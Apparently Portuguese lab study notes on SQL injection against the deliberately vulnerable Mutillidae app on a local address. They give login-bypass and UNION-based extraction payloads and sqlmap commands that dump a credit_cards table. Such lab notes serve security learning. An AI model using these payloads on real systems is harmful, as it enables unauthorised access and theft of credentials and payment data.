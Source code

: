 <h1>SLQ Injection</h1>

-- Inserir código sql em inputs
	
	1° Primeiro passo: Forçar erro para ver no log a consulta SQL
		"SELECT * FROM accounts WHERE username='admin '' AND password='' (0) [Exception] "

	2° Tentar concatenar uma condição afim de conseguir logar no sistema
		SELECT * FROM accounts WHERE username='admin' AND password='
									    x' or '1'='1   
											'
	  Assim conseguimos logar com sucesso.

	3° Tentar descobrir a quantidade de colunas que a tabela accounts possui, conseguimos isso com o código order by.
		**** admin' order by 1,2,3,4,5,6,7 -- 
	
	4° Com Union consigo unir dois selects, assim consigo acessar dados sensiveis do sistema
		
		Para usar o union :
			admin' union select 1,2,3,4,5,6,7 from information_schema.columns where table_name = 'accounts'  --  
			(Com esse comando consigo descobrir o nome das colunas')
		- Para descobrir o nome do banco de dados, basta adicionar database() ao comando acima, assim :
			admin' union select 1,database(),3,4,5,6,7 from information_schema.columns where table_name = 'accounts'  --  
			obtive o seguinte resultado "nowasp"
		- Com o nome do databse, conseguimos descobrir todas as colunas da tabela accounts:
			admin' union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'accounts' and table_schema = 'nowasp' --  

	5° Usando SQLMAP 
		- Descobrir o banco 
			sqlmap -u "http://192.168.0.64/mutillidae/index.php?page=user-info.php&username=admin&password=afas&user-info-php-submit-button=View+Account+Details" --current-db
      
		- Descobrir as tabelas do banco 
			sqlmap -u "http://192.168.0.64/mutillidae/index.php?page=user-info.php&username=admin&password=afas&user-info-php-submit-button=View+Account+Details" --tables -D nowasp

		- Para descobrir dados de uma tabelas
			sqlmap -u "http://192.168.0.64/mutillidae/index.php?page=user-info.php&username=admin&password=afas&user-info-php-submit-button=View+Account+Details" --dump -T credit_cards -D nowasp

 



